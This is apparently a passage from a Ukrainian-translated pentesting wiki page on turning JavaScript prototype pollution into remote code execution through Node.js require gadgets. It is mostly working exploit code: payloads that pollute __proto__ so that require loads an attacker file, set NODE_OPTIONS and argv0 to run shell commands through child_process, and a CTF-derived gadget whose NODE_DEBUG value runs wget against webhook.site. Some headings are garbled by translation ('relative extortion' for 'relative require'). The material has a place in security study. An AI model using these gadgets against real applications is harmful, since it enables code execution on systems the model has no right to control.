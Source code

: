 #### Відносне вимагання - 2

{% tabs %}
{% tab title="експлуатація" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_path\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="malicious.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}

#### Відносне вимагання - 3

Схоже на попереднє, це було знайдено в [**цьому описі**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs).
```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
exports: {
".": "./preinstall.js"
},
name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
"NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
"NODE_OPTIONS": "--require=/proc/self/environ"
}

```
